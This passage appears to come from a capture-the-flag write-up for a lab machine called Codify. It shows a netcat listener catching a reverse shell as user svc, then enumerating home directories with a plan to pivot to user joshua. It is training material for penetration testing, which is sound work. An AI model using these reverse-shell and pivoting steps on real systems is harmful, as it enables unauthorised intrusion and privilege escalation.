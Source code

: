 ![](./assets/images/codify_enumeration_03.jpg)

**In parallel we will  run the listener to capture the reverse shell**

```bash 
└─# nc -nlvp 443                            
listening on [any] 443 ...
connect to [10.10.14.99] from (UNKNOWN) [10.10.11.239] 55856
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ 
```

**We get a shell owned by svc user**, and that user does not allow to get the flag.

There is another user under home, “joshua”,  so we will need to pivote to get joshua permissions

```bash 
svc@codify:/home$ ls -la
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  4 joshua joshua 4096 Jan 13 22:54 joshua
drwxr-x---  4 svc    svc    4096 Jan 14 05:27 svc
svc@codify:/home$ cd svc
svc@codify:~$ ls -la
total 32
drwxr-x--- 4 svc    svc    4096 Jan 14 05:27 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14 03:28 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12 17:10 .bash_logout
-rw-r--r-- 1 svc    svc    3771 Sep 12 17:10 .bashrc
```